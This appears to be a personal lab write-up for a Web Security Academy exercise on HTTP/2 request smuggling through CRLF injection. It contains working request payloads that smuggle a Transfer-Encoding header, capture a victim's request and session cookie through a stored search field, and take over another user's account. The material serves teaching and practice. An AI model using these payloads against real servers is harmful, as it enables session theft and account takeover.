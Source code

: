 
The catch here is that HTTP/2 messages are binary rather than text-based, so the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters.

This means that `\r\n` no longer has any value, and can be included inside the value without causing any splitting.

When the request is rewritten as HTTP/1 request, then `\r\n` will be interpreted as a header delimiter.

For example:

```HTTP/2
Foo: bar\nTransfer-Encoding: chunked
```

```HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

## CLFR Exploitation

The goal is to use CLFR vulnerability to gain access to another user's account. The victim accesses the home page every 15 seconds.

First let's capture the root request and send that to repeater. Change the method to `POST` and remove the unnecessary headers.

In order to verify the vulnerability, let's add the `Transfer-Encoding: chunked` but in the same line with another header, so the frontend will not see it.

`Foo: Bar\r\nTransfer-Encoding: chunked`

So the request will be:

```HTTP/2
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

GET /dajlshdalked HTTP/1.1
X-Ignore: x
```

Always make sure that there will not be `\r\n` after the X-Ignore: x, as this will not allow the correct append of the victim's request.

When I send this, and then a normal request, I got a `404` meaning that the vulnerability is present.

Response
```http
HTTP/2 404 Not Found
```

Now, to exploit and gain access to the victim's account. For, this I will target its cookie.

In the main page, there is a search function, and if I search for something, that is stored in the "Recent searches", so I will use this to gain access to the victim's account.

![[Pasted image 20250116112611.png]]

I modify my attack request in a way that the `Content-Length` is much longer than the actual body.

```http
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7a004804d6a19f80d6402b00bd0047.web-security-academy.net
Cookie: session=9QjWxUhrPKWLuxEXqD6HwnMDzlhrRNTj;
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=halilWashere
```

When I send this, a couple of times, as the victim visits the page every 15 seconds, the request of the victim will be appended to my search query. 

And I see that I have extracted the request, and there is also the cookie.
![[Pasted image 20250116113108.png]]

When I put this account's Cookie in Burp, I gain access to the `carlos` account.

![[Pasted image 20250116113425.png]]